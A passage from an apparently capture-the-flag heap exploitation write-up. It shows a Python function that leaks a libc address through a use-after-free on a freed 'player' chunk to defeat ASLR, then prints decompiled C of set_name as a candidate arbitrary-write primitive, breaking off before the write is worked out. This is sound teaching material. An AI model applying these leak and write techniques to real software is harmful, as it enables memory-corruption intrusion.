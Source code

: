 Let's developp the program to leak:

```python
def leak_libc(r: process):
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    create_player(r, b"a"*0x80, 0, 0, 0, 0)
    select_player(r, 0)
    remove_player(r, 0)
    return int.from_bytes(show_player(r)[0][1:7], "little") - 0x399b58
```

As you can observe, we're allocating two players. The first player has a name sized 0x81 (the program adds one to the size of the name when calling malloc), while the second player's details are not significant; it's merely present to prevent libc from consolidating our freed chunk with the top chunk. 

Next, we select the first allocated player, causing `selected_player` to point to it, and then free it. Finally, we read the player. By parsing the name of the player, we can retrieve a libc address that is 0x399b58 bytes away from the beginning.

## Is there a way to RCE ?

We have a libc leak to defeat the ASLR...But the exploitation is not achieved. I did many tests to leverage the write primitive...but I had some limitations to bypass. The following code is the simplified one of `set_name`, the promising function to achieve an arbitrary write:

```c
void set_name(void) {
  size_t cur_name_len;
  size_t new_name_len;
  char *new_name;
  char name [136];

  read_input(name,0x80);
  cur_name_len = strlen(selected_player->name);
  new_name_len = strlen(name);
  if (cur_name_len < new_name_len) {
    new_name = (char *)realloc(selected_player->name,new_name_len + 1);
    if (new_name == (char *)0x0) {
      puts("[-] Allocation error: realloc new name");
    }
    else {
      selected_player->name = new_name;
      strcpy(selected_player->name,name);
    }
  }
  else {
    strcpy(selected_player->name,name);
  }
}
```

So, when we want to write to `selected_player->name`, there are two main scenarios:

